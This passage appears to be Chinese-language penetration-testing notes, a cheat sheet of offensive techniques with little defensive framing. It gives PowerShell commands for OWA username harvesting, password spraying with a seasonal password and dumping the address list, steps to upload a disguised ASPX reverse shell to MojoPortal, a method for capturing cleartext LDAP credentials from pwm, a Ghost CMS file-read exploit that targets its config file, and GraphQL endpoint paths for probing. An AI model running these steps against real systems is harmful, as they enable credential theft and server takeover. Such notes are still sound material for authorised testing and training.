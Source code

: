 ```powershell
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

密码喷射
```powershell
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

获得有效凭据后可以继续 dump 数据：
```powershell
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt   (dump mail address)
```


### MojoPortal v2.7 登录到后台无限制上传文件
https://weed-1.gitbook.io/cve/mojoportal/upload-malicious-file-in-mojoportal-v2.7-cve-2022-40341
访问 `http://IP/Admin/FileManagerAlt.aspx`
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
上传 `shell.aspx.png` ，改名为 `cmd.aspx`
访问 : `http://IP123`


### pwm 实例
登录后进入 `Configuration Editor`
可以编辑 LDAP > default > Connection 中的 URLs 
删除内容后填写 `ldap://IP:389` , 本地建立监听后点击 `Test LDAP Profile`
可以获得明文的 ldap 凭据 （也可以使用 wireshark 抓包获得 password）（也可以使用 responder）
![](photos/Pasted%20image%2020241118101735.png)


### Ghost CMS
拿到用户名，密码后可以尝试
https://github.com/0xyassine/CVE-2023-40028/blob/master/README.md
任意文件读取漏洞，读取文件
```
file> /var/lib/ghost/config.production.json
```
 
可能会存在文件名，密码


### GraphQL
https://www.yeswehack.com/learn-bug-bounty/how-exploit-graphql-endpoint-bug-bounty
GraphQL 终端节点可能路径
```js
/v1/explorer
/v1/graphiql
/graph
/graphql
/graphql/console/
/graphql.php
/graphiql
/graphiql.php
```
